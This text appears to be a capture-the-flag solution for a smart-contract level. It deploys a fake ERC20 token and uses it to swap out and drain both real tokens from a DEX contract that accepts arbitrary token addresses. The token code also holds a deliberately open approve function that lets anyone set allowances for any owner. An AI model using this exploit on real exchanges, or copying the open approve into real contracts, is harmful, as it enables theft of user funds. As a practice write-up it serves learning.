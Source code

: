 ```javascript
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/ERC20.sol";

contract DEX2Token is ERC20 {
  constructor(string memory name, string memory symbol) public ERC20(name, symbol) {
        _mint(msg.sender, 10);
        _mint(0x57E8fa3d1e1B758C54A83E2DF3d93B7867a4c373, 10);
  }

  function approve(address owner, address spender, uint256 amount) public returns(bool){
    super._approve(owner, spender, amount);
  }
}
```

Deploy the contract 2 times to get Address1 and Address2.
Let `C` be the level's contract address.
Let `token1` and `token2` be the address of the underlying tokens in the contract.
We call `Address1.approve(C, 20)` and `Address2.approve(C, 20)` in Remix.

Finally, run the following:

```javascript
await contract.swap(Address1, token2, 10)

await contract.swap(Address2, token1, 10)
```
